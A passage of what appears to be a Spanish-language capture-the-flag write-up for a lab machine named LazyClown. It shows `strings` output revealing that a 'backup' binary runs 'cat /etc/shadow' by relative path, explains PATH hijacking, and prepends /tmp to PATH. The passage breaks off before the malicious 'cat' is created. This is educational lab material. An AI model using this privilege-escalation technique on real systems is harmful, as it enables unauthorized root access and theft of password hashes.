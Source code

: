 Bueno, si estás pensando en _crackear_ la contraseña de **root**, pues suerte con ello porque su contraseña es **muy compleja** y tardarías años

En su lugar, inspeccionemos un poco el binario.

Hago uso de la herramienta `strings` para que me reporte todas las cadenas de texto **imprimibles** del binario, y veo algo interesante:

```bash
mitsos@LazyClown:~$ strings backup 
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
system
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
[^_]
cat /etc/shadow
;*2$"
GCC: (Ubuntu 4.8.4-2ubuntu1~14.04.3) 4.8.4
.symtab
.strtab
.shstrtab
.interp
[...]
```

Vemos una cadena interesante: `cat /etc/shadow`.

El hecho de que esté usando `cat` con la ruta relativa y no con la completa, hace que este binario sea vulnerable a un ataque llamado [Path Hijacking](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/){:target="\_blank"}{:rel="noopener nofollow"}

Este ataque consiste en **alterar el path**, donde el sistema busca los binarios cuando los llamamos de forma **relativa**. Manipularíamos el path para que primero busque los binarios en un directorio que nosotros controlemos y allí crear un archivo `cat` que contenga alguna sentencia maliciosa en **bash**. 

Así, cuando ejecutemos el archivo `backup`, utilizará el `cat` malicioso que hemos creado en lugar del legítimo.

Hagamos esto.

Primero **alteraremos** el path para que primero busque los binarios en el directorio /tmp (por ejemplo):

```bash
mitsos@LazyClown:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

mitsos@LazyClown:~$ export PATH=/tmp:$PATH

mitsos@LazyClown:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
Como vemos, cada ruta está separada por `:`, asi que lo que hemos hecho es poner la ruta `/tmp`: y todo el valor de path, así conseguimos que esa ruta se añada al **principio**
